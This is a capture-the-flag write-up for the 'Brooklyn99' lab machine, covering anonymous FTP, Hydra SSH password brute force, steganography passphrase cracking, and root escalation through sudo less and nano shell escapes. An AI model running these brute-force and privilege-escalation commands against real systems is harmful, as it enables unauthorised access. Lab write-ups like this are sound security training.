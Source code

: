 # Brooklyn99 CTF
## Enumeration
Going to the site and cheching the html we can see this 
```html 
<!-- Have you ever heard of steganography? -->
```
**Intersting**   
We are told there is 2 ways of getting to root in thi mahcine. Lets check both 
------------
# Method one
### Nmap scan 
```bash
└─# nmap 10.10.15.26 -T5   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-26 07:33 EST
Nmap scan report for 10.10.15.26
Host is up (0.21s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
````
### FTP 
I didnt check if FTP has **Anonymous** login enabled but tried it and we can 

navigathing  through we found this file
```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
```
this will download the text file to your machine. (you can also use mget command)
This is the note thats left 

>From Amy,

>Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

This might come in handy knowing jake ```"Detective Jake Peralta(holts voice)"``` uses weak password :).

**``Username : jake``**
lets brut force

### Hydra
```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt  10.10.15.26  ssh -t 4
```  
we used **jake** as the user and used argument **-P** to specify our world list with out IP and port we are attacking which is **ssh** 
``` bash
host: 10.10.15.26   login: jake   password: 987654321
```  
Oh dear jake u failed us hope this wont let me in .  
```ssh jake@'ur_ip_here'```  
And we are in. Oh Jake Peralta Amy would be dissapointed   

## Privilege Escalation
```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:~$ 
```
intersting jake can run /usr/bin/less as sudo. Lets go to [gtfobins.github.io](gtfobins) to check how we can privilege escalate our way.   
By searching less we found a way to escalte. We can run less binary as a superuser. we can spawn a shell with higher privilage 
```sudo less /etc/profile ```
```!/bin/sh```


```bash
jake@brookly_nine_nine:~$ sudo less /etc/profile
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
```
>-- Creator : Fsociety2006 --
>Congratulations in rooting Brooklyn Nine Nine
>Here is the flag: 63a9f0ea*********96b649e85481845
>
>Enjoy!!

### Forgot the user flag but here it is 
----------------
# Method 2
## Steganography
[https://0xrick.github.io/lists/stego](0xrick) Has good resources on Steganography tools to use.  
Lets explore some  
```bash
└─# exiftool brooklyn99.jpg 
ExifTool Version Number         : 12.39
File Name                       : brooklyn99.jpg
Directory                       : .
File Size                       : 68 KiB
File Modification Date/Time     : 2020:05:26 05:01:39-04:00
File Access Date/Time           : 2022:02:26 05:38:36-05:00
File Inode Change Date/Time     : 2022:02:26 05:35:43-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 533
Image Height                    : 300
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 533x300
Megapixels                      : 0.160
````
THis is the exiftool you can run more enumration using other toolds like **file** and **string**  
Running string returned lot of strings inside. Maybe we can check those. But an intersting thing to notice is when we tried to check if there is anyting inside the image using **steghide** it asks for a password. So lets run **stegcracker** to crack the password with common passwords.  


```bash
└─# stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt 

Tried 20203 passwords
Your file has been written to: brooklyn99.jpg.out
**** //<= password

```` 
lets now go and extract the file inside the image.
```bash
└─# steghide extract -sf brooklyn99.jpg                        
Enter passphrase: 
wrote extracted data to "note.txt".
 ```
This is the note that is extracted
>Holts Password:
>**********@ninenine

>Enjoy!!

We got holts password. using hold as user name and the password we found we are in
```bash
└─# ssh holt@10.10.45.249
holt@brookly_nine_nine:~$ whoami
holt
```
## Privilege Escalation
Captain Ray Holt is can run **/bin/nano** binary as sudo . **Intersting**   
Going to gtfobin we found this
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
lets run it 


```bash
holt@brookly_nine_nine:~$ sudo nano

````
this will take us to nano Clicking control R and control x will enable us to execute system commands ruuning 
```reset; sh 1>&0 2>&0``` will give us shell as root

### Proof of concept 
```bash

Command to execute: reset; sh 1>&0 2>&0#                                                                            
# whoami
root
# 
````

We have found both ways to root the box. 
--------
